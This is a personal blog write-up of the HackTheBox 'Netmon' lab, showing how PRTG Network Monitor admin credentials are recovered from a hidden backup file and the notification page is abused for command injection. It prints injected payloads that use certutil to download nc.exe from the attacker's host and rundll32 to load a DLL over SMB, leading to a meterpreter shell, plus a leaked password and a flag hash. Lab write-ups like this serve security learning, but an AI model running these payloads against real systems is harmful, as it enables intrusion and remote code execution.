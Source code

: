 ```yaml
---
title: "HackTheBox - Netmon WT"
date: 2019-03-03T20:50:01-05:00
tags: ["hackthebox", "htb"]
draft: false
---
```



![alt text](/images/htb-Netmon/img1.png "")
![alt text](/images/htb-Netmon/img2.png "")

## Box IP: 10.10.10.152

# Reconnaissance

1) I started with scanning network. Here's what I found


![alt text](/images/htb-Netmon/img3.png "")
![alt text](/images/htb-Netmon/img4.png "")

2) Port 80,  we have a login page or PRTG Network Monitor. I found it was vulnerable for cross site Vulnerability

![alt text](/images/htb-Netmon/img5.png "")


3) filezilla, I messed around with ftp 21..looking for the configuration.old file that contained the creds according to this post on reddit
  https://www.reddit.com/r/sysadmin/comments/862b8s/prtg_gave_away_some_of_your_passwords/
  .. But I couldnt find it.. later on I was hinted that It was a hiddden file.. So I had “force hidden files” unchecked once I checked that we found it in /programData/Paessler/PRTG Network Monitor


![alt text](/images/htb-Netmon/img6.png "")
![alt text](/images/htb-Netmon/img8.png "")
![alt text](/images/htb-Netmon/img9.png "")
 I found it...it was in programdata/passeler/PRTG Configuration.old.bak


**`
 prtgadmin  →  PrTg@dmin2018  
  I was getting incorrect login with this one,   until  I had help from legov
  and found that it would be PrTg@dmin2019
**`


![alt text](/images/htb-Netmon/img10.png "")

4) In filezilla , after I enabled to show hidden files, under server>show hidden files,I f ound USER.txt in /Users/Public


![alt text](/images/htb-Netmon/img11.png "")

5) With the login credentials we can log in

![alt text](/images/htb-Netmon/img12.png "")
![alt text](/images/htb-Netmon/img13.png "")

  This CVe Was helpful where we can run remote command through the notification page
  
  https://www.ptsecurity.com/ww-en/analytics/threatscape/pt-2018-23/
  
  
  https://www.codewatch.org/blog/?p=453
  
  https://www.exploit-db.com/exploits/46527

# I USED exploit# 46527 

6) I created a simplehttpserver to send nc.exe and payloads to  maybe try and establish a session 
![alt text](/images/htb-Netmon/img18.png"")
![alt text](/images/htb-Netmon/img19.png"")

7) In the "create_user()" function on the 7th line in the fig below starting from the &message_10 parameter
 we inject a html encoded command that will run through the notification page 

**test.txt|"certutil.exe -urlcache -split -f http://10.10.12.11/nc.exe c:\users\public\Music\nc.exe"** but it should be html encoded
![alt text](/images/htb-Netmon/img17.png "")

![alt text](/images/htb-Netmon/img15.png "")

8) A certutil get request to  httpserver, yes it was for certp.exe. I tried many things before that. But same method works to upload nc.exe.

![alt text](/images/htb-Netmon/img30.png "")

9) Next I used the same script to enter another html encoded command to run nc.exe and I had a listener setup on my kali to establish a connection


![alt text](/images/htb-Netmon/img16.png "")
![alt text](/images/htb-Netmon/img21.png "")

# For some reason the shell from nc din't work or I didn't get a full shell#

------------------------------------------------------------------------
Here's what worked

![alt text](/images/htb-Netmon/img22.png "")

10) F12 after you log-in to pullup _inspect element and get the cookie paramters
  
![alt text](/images/htb-Netmon/img23.png "")
*`Inside rundl32.sh.. The most important paramenter...After "&message_10="`*

![alt text](/images/htb-Netmon/img24.png "")

11) Used w3school to encode html
  
  `test.txt|"rundll32.exe \\10.10.12.11\uqMdU\test.dll,0"`
![alt text](/images/htb-Netmon/img26.png "")

#`text=test.txt%7C%22rundll32.exe+%5C%5C10.10.12.11%5CuqMdU%5Ctest.dll%2C0%22`

12) running rundl32.sh12) running rundl32.sh  we see the name titanrundl2 uploaded to notification page

![lt text](/images/htb-Netmon/img29.png "")

13) I used windows/smb/smb_delievery exploit with a job running on port8081
![alt text](/images/htb-Netmon/img28.png "")
![alt text](/images/htb-Netmon/img27.png "")
And we get a meterpreter shell session opened. Awesome

![alt text](/images/htb-Netmon/img31.png "")
![alt text](/images/htb-Netmon/img32.png "")


#LADIES AND GENTLEMEN WE ARE IN :))))))))))))))))))))))


![alt text](/images/htb-Netmon/img33.png "")
![alt text](/images/htb-Netmon/img34.png "")
![alt text](/images/htb-Netmon/img35.png "")


**3018977fb944bf1878f75b879fba67cc**



DONE TOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOK ME AWILLEEEEEEEEEEEEEEEEEEEEee
